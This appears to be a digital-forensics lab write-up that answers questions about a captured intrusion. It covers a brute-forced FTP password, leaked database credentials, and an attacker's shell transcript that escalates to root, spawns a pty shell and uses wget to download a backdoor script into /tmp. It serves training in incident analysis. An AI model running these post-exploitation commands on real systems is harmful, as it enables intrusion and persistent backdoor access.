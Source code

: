 # It appears that the attacker is attempting to brute force the user's FTP password. Can you find any evidence of a correct password, and if so, what is it?
PASS batman

# What additional information was the attacker able to extract from the user's FTP account?
creadentials.txt , bash history

# What actions did the attacker take with the information obtained from the user's FTP account?
Leaving my database username and password here in case I forget.

username: myuser
password: P@ssw0rd123456!



# What's the root account password?
www-data@w:/var/www/html$ su root
su root
Password: 1amgr000000t!@#$ 
id
su: Authentication failure
www-data@w:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@w:/var/www/html$ su root
su root
Password: 1amgr000000t!@#$
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c "import pty; pty.spawn('/bin/bash');"
root@w:/var/www/html# cd ~
cd ~
root@w:~# ls -la
ls -la
total 56
drwx------  7 root root 4096 ..........  23 04:27 .
drwxr-xr-x 20 root root 4096 ..........   8 20:40 ..
-rw-------  1 root root 2663 ..........  23 04:27 .bash_history
-rw-r--r--  1 root root 3106 ............ 15  2021 .bashrc
drwx------  5 root root 4096 ..........  16 01:42 .cache
drwxr-xr-x  2 root root 4096 ............ 12 14:22 .cassandra
drwx------  7 root root 4096 ..........  23 04:04 .config
-rw-r--r--  1 root root  133 ..........  23 02:47 gr00t.txt
-rw-------  1 root root   20 ..........  11 17:41 .lesshst
drwxr-xr-x  3 root root 4096 ..........   5 09:30 .local
-rw-------  1 root root  353 ..........  11 19:58 .mysql_history
-rw-r--r--  1 root root  161 ............  9  2019 .profile
drwx------  5 root root 4096 ..........   8 21:09 snap
-rw-r--r--  1 root root    0 ............ 12 14:17 .sudo_as_admin_successful
-rw-r--r--  1 root root  180 ..........  23 04:23 .wget-hsts
root@w:~# cat gr00t.txt
cat gr00t.txt
Congrats on getting here. But that's not it, the real test starts now! ;)

Btw, here's your flag for this stage: flag{1_4m_gr00000t!}root@w:~# cd /tmp
cd /tmp
root@w:/tmp# wget https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%205/files/backdoor.py

# Can you identify the packet numbers in which the attacker exploited the Remote Code Execution vulnerability to gain access to the system? What was the exact payload used by the attacker?
# After gaining access to the system, what does the attacker seem to be doing?
# The attacker read a file from root's home directory. What was in that file?
# The attacker downloaded a file inside root's home directory. What's the purpose of that file?
# What information was transmitted through the attacker's covertly established channel of communication?
